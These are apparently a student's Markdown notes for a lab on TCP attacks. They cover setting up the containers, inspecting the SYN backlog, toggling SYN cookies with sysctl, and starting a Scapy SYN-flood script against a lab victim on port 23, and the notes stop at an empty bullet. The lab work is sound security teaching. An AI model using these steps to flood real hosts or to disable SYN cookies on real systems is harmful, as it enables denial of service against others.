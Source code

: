 # TCP Attacks
## Containers setup
- run in each the following line replacing `role` with what the container is, just to recognize them easier from the prompt
  - ```echo 'PS1="role | $PS1"' >> ~/.bashrc```

# Task 1: SYN Flooding Attack
## 1.1 $-$ With python
### Notes
| desc | command |
| --- | --- |
| see queu size for connections | `sysctl net.ipv4.tcp_max_syn_backlog` |
| check usage of queue (look for SYN-RECV, number of half-opened connections) | `netstat -nat` |

### On SYN cookie countermeasue
enabled by default, we can change it:
```bash
$ sysctl -a | grep syncookies # Display the SYN cookie flag 
$ sysctl -w net.ipv4.tcp_syncookies=0 # turn off SYN cookie
$ sysctl -w net.ipv4.tcp_syncookies=1 # turn on SYN cookie
```

### Solving
- set IP destination and port (the victim machine and the tcp port on which it's listening)
  ```python
  ip = IP(dst="10.9.0.5")
  tcp = TCP(dport=23, flags='S')
  ```
- launch the python script from the attacker and monitor the recv queue on the victim
  ```bash
  # Attacker
  python3 synflood.py
  # === 
  # Victim
  watch -n 0.5 netstat -nat
  ```
- 